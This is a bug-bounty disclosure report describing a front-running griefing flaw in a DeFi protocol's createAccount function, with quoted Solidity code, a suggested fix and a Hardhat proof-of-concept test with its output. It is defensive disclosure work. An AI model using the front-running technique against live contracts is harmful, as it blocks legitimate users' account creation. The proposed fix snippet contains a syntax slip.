 
# Front-Running Vulnerability in `createAccount` Method

Submitted on Wed Jul 24 2024 14:54:47 GMT-0400 (Atlantic Standard Time) by @chista0x for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33614

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x3324B5BF2b5C85999C6DAf2f77b5a29aB74197cc

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The `createAccount` method in the protocol's contract is vulnerable to a front-running attack. A malicious user can exploit this by observing a pending transaction and submitting their own transaction with the same `accountId` but with a higher `gasPrice`, causing the victim's transaction to be reverted due to the account ID already being in use.

## Vulnerability Details
The `createAccount` function currently checks if an `accountID` is already created and reverts the transaction if it is. However, this implementation allows a malicious user to front-run a legitimate user's account creation request by submitting a transaction with the same `accountId` but with a higher `gasPrice`. This results in the attacker's transaction being processed first, and the legitimate user's transaction being reverted due to the account ID collision.

The relevant code snippet from the `createAccount` method is:
```solidity

contract AccountManager is IAccountManager, AccessControlDefaultAdminRules {

    /// @notice Mapping of accounts to whether they are created
    mapping(bytes32 accountId => bool isCreated) internal accounts;

    /// @notice Mapping of account to addresses on spoke chains which will/are/have been able to manage the account
    mapping(bytes32 accountId => mapping(uint16 chainId => AccountAddress)) internal accountAddresses;

    /// @notice Mapping of addresses on spoke chains to the accountId they are registered to
    mapping(bytes32 addr => mapping(uint16 chainId => bytes32 accountId)) internal registeredAddresses;

    /// @notice Mapping of account to addresses on hub chain which are permitted to manage the account
    mapping(bytes32 accountId => mapping(address => bool isDelegated)) internal accountDelegatedAddresses;

    ...

    function createAccount(
        bytes32 accountId,
        uint16 chainId,
        bytes32 addr,
        bytes32 refAccountId
    ) external override onlyRole(HUB_ROLE) {
        // check account is not already created (empty is reserved for admin)
        if (isAccountCreated(accountId) || accountId == bytes32(0)) revert AccountAlreadyCreated(accountId);

        // check address is not already registered
        if (isAddressRegistered(chainId, addr)) revert AddressPreviouslyRegistered(chainId, addr);

        // check referrer is well defined
        if (!(isAccountCreated(refAccountId) || refAccountId == bytes32(0)))
            revert InvalidReferrerAccount(refAccountId);

        // create account
        accounts[accountId] = true;
        accountAddresses[accountId][chainId] = AccountAddress({ addr: addr, invited: false, registered: true });
        registeredAddresses[addr][chainId] = accountId;

        emit CreateAccount(accountId, chainId, addr, refAccountId);
    }

    ...

    function isAccountCreated(bytes32 accountId) public view override returns (bool) {
        return accounts[accountId];
    }

}


```

## Impact Details
This vulnerability can be exploited by a malicious user to prevent legitimate users from creating new accounts on the protocol. By continuously front-running transactions, an attacker could effectively block all new account creation attempts, causing significant disruption to the protocol's user base.


## Recommendation
To mitigate this vulnerability, it is recommended to generate the `accountId` using a `seed` provided by the user and the `sender's address`. This can be achieved by hashing the seed and the address together, preventing attackers from predicting or replicating the `accountId`.

Proposed code change:
```solidity
function createAccount(bytes32 seed, uint16 chainId, bytes32 addr, bytes32 refAccountId)
) external override onlyRole(HUB_ROLE) {
    bytes32 accountId = keccak256(abi.encode(seed, addr));

    // existing logic...
}
```

## References
- [AccountManager.sol on GitHub](https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/AccountManager.sol#L42)
        
## Proof of concept
## Proof of Concept (POC)
The following test simulates a front-running attack. The attacker submits a transaction with a higher gas price, causing the legitimate user's transaction to be reverted.

Add the code to the `test\hub\AccountManager.test.ts`

```javascript
  describe("CreateAccount Front-Running", () => {
    it("Chista0x-Front-Running-CreateAccount Should fail to create account when account id already in use", async () => {
      const { hub, unusedUsers, accountManager, spokeChainId, refAccountId } =
        await loadFixture(createAccountFixture);

      const victim_Addr = convertEVMAddressToGenericAddress(unusedUsers[0].address);
      const attacker_Addr = convertEVMAddressToGenericAddress(unusedUsers[1].address);

      // Just for change nonce that simulate front-running
      await accountManager.grantRole(HUB_ROLE, unusedUsers[0]);
      await accountManager.grantRole(HUB_ROLE, unusedUsers[1]);

      const accountId_Same: string = getAccountIdBytes("ACCOUNT_ID_Same");
      expect(await accountManager.isAccountCreated(accountId_Same)).to.be.false;


      // set the mining behavior to false, so the transaction will be collected in the mempool, before finalization
      await network.provider.send("evm_setAutomine", [false]);

      // Victim made the transaction for create account with new account id
      const createAccount_victim = await accountManager.connect(unusedUsers[0])
      .createAccount(accountId_Same, spokeChainId, victim_Addr, refAccountId,
        { gasLimit: 500000, gasPrice: ethers.parseUnits("100", "gwei") });
      console.log("Victim TX Hash = ", createAccount_victim.hash);

      // attacker create front-running for victim transaction with same accountId (send trx with higher gasPrice)
      const createAccount_attacker = await accountManager.connect(unusedUsers[1])
      .createAccount(accountId_Same, spokeChainId, attacker_Addr, refAccountId,
        { gasLimit: 500000, gasPrice: ethers.parseUnits("101", "gwei") });
      console.log("Attacker TX Hash = ", createAccount_attacker.hash);

      const pendingBlock = await network.provider.send("eth_getBlockByNumber", [
        "pending", 
        false, 
      ]);
      console.log("\n Pending Transactions = " , pendingBlock.transactions);

      // Manually create a block with the pending transactions
      await network.provider.send("evm_mine", []);

      // verify account is created
      expect(await accountManager.isAccountCreated(accountId_Same)).to.be.true;

      expect(createAccount_attacker)
      .to.emit(accountManager, "CreateAccount")
      .withArgs(accountId_Same, spokeChainId, attacker_Addr, refAccountId);

      expect(createAccount_victim)
      .to.be.revertedWithCustomError(accountManager, "AccountAlreadyCreated") 
      .withArgs(accountId_Same);

      expect(await accountManager.isAddressRegisteredToAccount(accountId_Same, spokeChainId, attacker_Addr)).to.be.true; // true
      expect(await accountManager.isAddressRegisteredToAccount(accountId_Same, spokeChainId, victim_Addr)).to.be.false; // false
    });
  });
```

To run the test, use the following command:
```bash
npx hardhat test --grep "Chista0x-Front-Running-CreateAccount"
```

Sample test output:
```bash
$ npx hardhat test --grep "Chista0x-Front-Running-CreateAccount"

  AccountManager (unit tests)
    CreateAccount Front-Running
Victim TX Hash =  0x78f826e948b8b3f07c1d2ae47716b0d337380f0ed5c72cca2cc78ce6c6eb7c45
Attacker TX Hash =  0x7ff4d7559af3511fe1534ec3e95a6513938d0c5f700af2d26ece636ee608d565

 Pending Transactions =  [
  '0x7ff4d7559af3511fe1534ec3e95a6513938d0c5f700af2d26ece636ee608d565',
  '0x78f826e948b8b3f07c1d2ae47716b0d337380f0ed5c72cca2cc78ce6c6eb7c45'
]
      ✔ Chista0x-Front-Running-CreateAccount Should fail to create account when account id already in use (3024ms)

  1 passing (3s)
```